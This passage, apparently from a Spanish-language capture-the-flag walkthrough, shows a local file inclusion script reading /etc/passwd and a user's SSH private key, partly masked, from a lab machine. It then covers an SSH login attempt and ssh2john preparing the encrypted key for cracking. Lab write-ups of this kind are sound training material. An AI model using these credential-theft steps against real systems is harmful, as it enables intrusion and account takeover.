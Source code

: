 ```bash
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
gh0st:x:1001:1001::/home/gh0st:/bin/bash
```
Encontramos un usuario llamado gh0st al tener esta informacion podemos tratar de conseguir la id\_rsa de dicho usuario.
```bash
./lfi.sh 10.0.2.110
Ruta a buscar: /home/gh0st/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABC7peoQE4
zNYwvrv72HTs4TAAAAEAAAAAEAAAGXAAAAB3NzaC1yc2EAAAADAQABAAABgQC2i1yzi3G5
QPSlTgc/EdnvrisIm0Z0jq4HDQJDRMaXQ4i4UdIlbEgmO/FA17kHzY1Mzi5vJFcLUSVVcF
1IAny5Dh8VA4t/+LRH0EFx6ZFibYinUJacgteD0RxRAUqNOjiYayzG1hWdKsffGzKz8EjQ
9xcBXAR9PBs6Wkhur+UptHi08QmtCWLV8XAo0DW9ATlkhSj25KiicNm+nmbEbLaK1U7U/C
aXDHZCcdIdkZ1InLj246sovn5kFPaBBHbmez9ji11YNaHVHgEkb37bLJm95l3fkU6sRGnz
6JlqXYnRLN84KAFssQOdFCFKqAHUPC4eg2i95KVMEW21W3Cen8UFDhGe8sl++VIUy/nqZn
8ev8deeEk3RXDRb6nwB3G+96BBgVKd7HCBediqzXE5mZ64f8wbimy2DmM8rfBMGQBqjocn
xkIS7msERVerz4XfXURZDLbgBgwlcWo+f8z2RWBawVgdajm3fL8RgT7At/KUuD7blQDOsk
WZR8KsegciUa8AAAWQNI9mwsIPu/OgEFaWLkQ+z0oA26f8k/0hXZWPN9THrVFZRwGOtD8u
utUgpP9SyHrL02jCx/TGdypihPdUeI5ffCvXI98cnvQDzK95DSiBNkmIHu3V8+f0e/QySN
FU3pVI3JjB6CgSKX2SdiN+epUdtZwbynrJeEh5mh0ULqQeY1WeczfLKNRFemE6NPFc+bo7
duQpt1I8DHPkh1UU2okfh8UoOMbkfOSLrVvB0dAaikk1RmtQs3x5CH6NhjsHOi7xDdza2A
dWJPZ4WbvcaEIi/vlDcjeOL285TIDqaom19O4XSrDZD70W61jM3whsicLDrupWxBUgTPqv
Fbr3D3OrQUfLMA1c/Fbb1vqTQFcbsbApMDKm2Z4LigZad7dOYyPVToEliyzksIk7f0x3Zr
s+o1q2FpE4iR3hQtRH2IGeGo3IZtGV6DnWgwe/FTQWT57TNPMoUNkrW5lmo69Z2jjBBZa4
q/eO848T2FlGEt7fWVsuzveSsln5V+mT6QYIpWgjJcvkNzQ0lsBUEs0bzrhP1CcPZ/dezw
oBGFvb5cnrh0RfjCa9PYoNR+d/IuO9N+SAHhZ7k+dv4He2dAJ3SxK4V9kIgAsRLMGLZOr1
+tFwphZ2mre/Z/SoT4SGNl8jmOXb6CncRLoiLgYVcGbEMJzdEY8yhBPyvX1+FCVHIHjGCU
VCnYqZAqxkXhN0Yoc0OU+jU6vNp239HbtaKO2uEaJjE4CDbQbf8cxstd4Qy5/MBaqrTqn6
UWWiM+89q9O80pkOYdoeHcWLx0ORHFPxB1vb/QUVSeWnQH9OCfE5QL51LaheoMO9n8Q5dy
bSJnR8bjnnZiyQ0AVtFaCnHe56C4Y8sAFOtyMi9o2GKxaXObUsZt30e4etr1Fg2JNY6+Ma
bS8K6oUcIuy+pObFzlgjXIMdiGkix/uwT+tC2+HHyAett2bbgwuTrB3cA8bkuNpH/sBfgf
f5rFGDu6RpFEVyiF0R6on6dZRBTCXIymfdpj6wBo0/uj0YpqyqFTcJpnb2fntPcVoISM7s
5kGVU/19fN39rtAIUa9XWk5PyI2avOYMnyeJwn3vaQ0dbbnaqckLYzLM8vyoygKFxWS3BC
6w0TBZDqQz36sD0t0bfIeSuZamttSFP1/pufLYtF+zaIUOsKzwwpYgUsr6iiRFKVTTv7w2
cqM2VCavToGkI86xD9bKLU+xNnuSNbq+mtOZUodAKuON8SdW00BFOSR/8EN7dZTKGipura
o8lsrT0XW+yZh+mlSVtuILfO5fdGKwygBrj6am1JQjOHEnmKkcIljMJwVUZE/s4zusuH09
Kx2xMUx4WMkLSUydSvflAVA7ZH9u8hhvrgBL/Gh5hmLZ7uckdK0smXtdtWt+sfBocVQKbk
eUs+bnjkWniqZ+ZLVKdjaAN8bIZVNqUhX6xnCauoVXDkeKl2tP7QuhqDbOLd7hoOuhLD4s
9LVqxvFtDuRWjtwFhc25H8HsQtjKCRT7Oyzdoc98FBbbJCWdyu+gabq17/sxR6Wfhu+Qj3
nY2JGa230fMlBvSfjiygvXTTAr98ZqyioEUsRvWe7MZssqZDRWj8c61LWsGfDwJz/qOoWJ
HXTqScCV9+B+VJfoVGKZ/bOTJ1NbMlk6+fCU1m4fA/67NM2Y7cqXv8HXdnlWrZzTwWbqew
RwDz5GzPiB9aiSw8gDSkgPUmbWztiSWiXlCv25p0yblMYtIYcTBLWkpK8D************
**********************************************************************
*****************************
-----END OPENSSH PRIVATE KEY-----
```
Encontramos la llave privada del usuario gh0st. La copiamos he ingresamos a un archivo y a dicho archivo le daremos permisos 600.
Al intentar ingresar con la llave a la maquina me pide una pasphrase, esto quiere decir que la llave esta encriptada por lo que debemos desencriptarla.
```bash
$ chmod 600 id_rsa
$ ssh -i id_rsa gh0st@10.0.2.110
Enter passphrase for key 'id_rsa':
```
Para desencriptar la llave usaremos la herramienta john.
```bash
$ ssh2john id_rsa > hash
```